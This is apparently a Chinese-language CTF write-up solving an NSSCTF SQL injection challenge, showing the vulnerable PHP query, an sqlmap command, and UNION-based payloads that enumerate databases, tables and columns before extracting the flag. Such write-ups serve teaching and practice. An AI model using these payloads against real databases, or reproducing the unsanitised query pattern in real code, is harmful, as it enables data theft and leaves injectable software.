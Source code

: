 ```yaml
---
layout: post
title: "这是什么？SQL ！注一下 ！"
date:   2024-9-29
tags: [SQL注入, CTF, WEB]
comments: true
author: MK-KM1542
---
```



一个输入框和提示
给出了Key Source

```php
<?php
$sql = "SELECT username,password FROM users WHERE id = ".'(((((('.$_GET["id"].'))))))';
$result = $conn->query($sql);
```

## sqlmap

```batch
python sqlmap.py -u "http://node5.anna.nssctf.cn:25805/?id=1" --dbs
```

详情见***通过sqlmap拿下数据库.md***

## 初步尝试

输入1试试看

```sql
# 回显：
Executed Operations:
SELECT username,password FROM users WHERE id = ((((((1))))))
Array ( 
[0] => Array ( 
    [username] => tanji 
    [password] => OHHHHHHH 
    ) 
)
```

有很多括号，构造`id = 1)))))) or 1=1#`
后台代码变成了

```sql
SELECT username,password FROM users WHERE id = ((((((1)))))) or 1=1#))))))
```

```sql
# 回显：
Executed Operations:
SELECT username,password FROM users WHERE id = ((((((1)))))) or 1=1#))))))
Array ( 
[0] => Array ( 
    [username] => tanji 
    [password] => OHHHHHHH 
    ) 
[1] => Array ( 
    [username] => fake_flag 
    [password] => F1rst_to_Th3_eggggggggg!} (4/4) 
    ) 
)
```

fake_flag,答案不在这里

## 获取数据库信息

```sql
# payload
id=1)))))) union select 1,group_concat(schema_name) from information_schema.schemata#
```

```sql
# 回显：
Array ( 
[0] => Array ( 
    [username] => tanji 
    [password] => OHHHHHHH 
    ) 
[1] => Array ( 
    [username] => 1 
    [password] => information_schema,mysql,ctftraining,performance_schema,test,ctf 
    ) 
)
```

数据库有：
* information_schema
* mysql
* ctftraining
* performance_schema
* test
* ctf

## 获取表名

一个个读取数据库的表名，flag在ctftraining数据库里，直接拿这个演示了

```sql
# payload
?id=1))))))union select 1,group_concat(table_name) from information_schema.tables where table_schema='ctftraining'#
```

```sql
# 回显：
Executed Operations:
SELECT username,password FROM users WHERE id = ((((((1))))))union select 1,group_concat(table_name) from information_schema.tables where table_schema='ctftraining'#))))))

Array ( 
[0] => Array ( 
    [username] => tanji 
    [password] => OHHHHHHH 
    ) 
[1] => Array ( 
    [username] => 1 
    [password] => flag,news,users 
    ) 
)
```

找到flag表了

## 获取字段

```sql
# payload
?id=1)))))) union select 1,group_concat(column_name) from information_schema.columns where table_schema='ctftraining'#
```

```sql
# 回显：
Executed Operations:
SELECT username,password FROM users WHERE id = ((((((1)))))) union select 1,group_concat(column_name) from information_schema.columns where table_schema='ctftraining'#))))))

Array ( 
[0] => Array ( 
    [username] => tanji 
    [password] => OHHHHHHH 
    ) 
[1] => Array ( 
    [username] => 1 
    [password] => flag,id,title,content,time,id,username,password,ip,time 
    ) 
)
```

找到flag字段了

## 获取flag

```sql
# payload
?id=1)))))) union select 1,flag from ctftraining.flag#
```

```sql
# 回显：
Executed Operations:
SELECT username,password FROM users WHERE id = ((((((1))))))union select 1,flag from ctftraining.flag#))))))

Array ( 
[0] => Array ( 
    [username] => tanji 
    [password] => OHHHHHHH 
    ) 
[1] => Array ( 
    [username] => 1 
    [password] => NSSCTF{26433a18-4388-4bd5-865f-d09f2a2443e4} 
    ) 
)
```

flag：NSSCTF{26433a18-4388-4bd5-865f-d09f2a2443e4}
